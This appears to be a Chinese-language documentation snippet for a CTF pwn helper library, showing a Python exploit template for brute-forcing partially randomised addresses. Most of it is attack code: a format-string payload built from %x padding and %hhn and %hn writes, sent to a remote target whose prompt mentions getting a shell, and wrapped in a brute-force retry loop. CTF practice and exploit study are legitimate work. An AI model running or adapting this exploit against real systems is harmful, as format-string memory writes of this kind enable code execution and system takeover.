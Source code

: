 

### 爆破字节

有的题目中有一位或几位会随机变化（比如栈地址或elf基地址中有一位无法获取，则需要循环执行，直到与远程相等）。

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
Author: ckyan
Generation date: 2024-06-28 10:06:46
"""

"""
GitHub:
    https://github.com/c0mentropy/ckyan.pwnScript
Help: 
    python3 exp.py --help
    python3 exp.py debug --help
    python3 exp.py remote --help
Local:
    python3 exp.py debug --file ./pwn
Remote:
    python3 exp.py remote --ip 127.0.0.1 --port 9999 [--file ./pwn] [--libc ./libc.so.6]
    python3 exp.py remote --url 127.0.0.1:9999 [--file ./pwn] [--libc ./libc.so.6]
"""

# ./exp.py de -f ./pwn
# ./exp.py re -f ./pwn -u ""

from ckyan.pwnScript import *

def exp():
    pandora_box.init_script()

    elf = pandora_box.elf
    libc = pandora_box.libc
    p = pandora_box.conn

    ru(b'make strings and getshell\n')
    # ru(b'the shit is ezfmt, M3?\n')

    # raw_input()


    pad = b''
    # pad += b'%' + str(int(0xb8)).encode() + b'c%18$hhn'
    pad += b'%x' * (18-2)
    pad += b'%' + str(int(0xb8-0x6e)).encode() + b'c%hhn'
    pad += b'%' + str(int(0x1242-0Xb8)).encode() + b'c%22$hn'

    # print(pad)
    # print(hex(len(pad)))

    s(pad)


if __name__ == '__main__':
    # exp()

    brute_attacker = BruteForce(exp=exp)

    brute_attacker.attack()
```